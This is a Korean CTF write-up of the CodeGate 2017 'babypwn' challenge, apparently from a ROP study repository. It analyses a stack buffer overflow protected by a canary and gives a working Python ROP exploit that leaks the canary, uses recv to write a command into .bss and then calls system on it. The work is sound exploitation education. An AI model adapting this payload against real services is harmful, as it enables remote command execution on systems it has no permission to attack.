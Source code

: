 # babypwn
### CodeGate 2017
***babypwn은 코드게이트 2017 예선에 출제된 문제입니다.***

babypwn을 처음 실행하면, 아래 그림과 같이 CodeGate!라는 말과 함께 3가지의 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/ROP_study/blob/master/babypwn/img/Stack.PNG)

여기서 취약한 곳을 정리하여 보겠습니다. (위, 아래 그림 참조)

![Alt text](https://github.com/Funniest/ROP_study/blob/master/babypwn/img/Vuln.PNG)

sub esp, 50 -> 0x50만큼 버퍼 생성

[ebp+var_34] -> 입력 버퍼

[ebp+var_c] -> 더미(?)

Stack_check가 있는 것으로 보아 더미 중간에canary(4byte)가 존재

취약한 함수 = call sub_8048907

buf의 크기는 총 0x34(52) + SFP = (56)인데, 입력은 0x64(100)만큼 받습니다.

└ recv(fd, buf, 0x64, 0)

즉 오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
1. Canary 카나리
2. recv_plt, recv_got
3. ppppr
4. system_plt
5. ppppr
6. bss영역

이 필요합니다.

익스플로잇 순서는
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
 
 └ recv_plt를 이용하여 bss영역에 실행하고 싶은 명령어를 씁니다.
 
 └ system_plt에 bss영역을 인자를 주어 명령어를 실행합니다.

### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

def sendline(s, string) :
    s.send(string + '\n')

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8181))

print "[+]step01 get canary"
print s.recv(2048)

sendline(s, '1')
print s.recv(1024)

'''
#canary
payload = ''
payload += 'A' * 41 #buffer[40] + canary[1] <= 0x00
s.send(payload)

print s.recv(1024)
print s.recv(41)
canary = "\x00"
canary += s.recv(3)
canary = up(canary)

print "Canary : " + str(hex(canary))
'''

canary = 0x12e5ca00
send_plt = 0x8048700
send_got = 0x804B064
recv_plt = 0x80486E0
recv_got = 0x804B05C
bss = 0x804b1b4
ppppr = 0x8048eec
system_plt = 0x8048620

cmd = 'ls -al'

payload = ''
payload += 'A' * 40
payload += p(canary)
payload += 'B' * 12

payload += p(recv_plt)
payload += p(ppppr)
payload += p(0x04)
payload += p(bss)
payload += p(len(cmd))
payload += p(0x00)
payload += p(system_plt)
payload += p(0x41414141)
payload += p(bss)

s.send(payload)

print s.recv(1024)
sendline(s, '3')

sendline(s, cmd)
print s.recv(1024)
s.close()
```
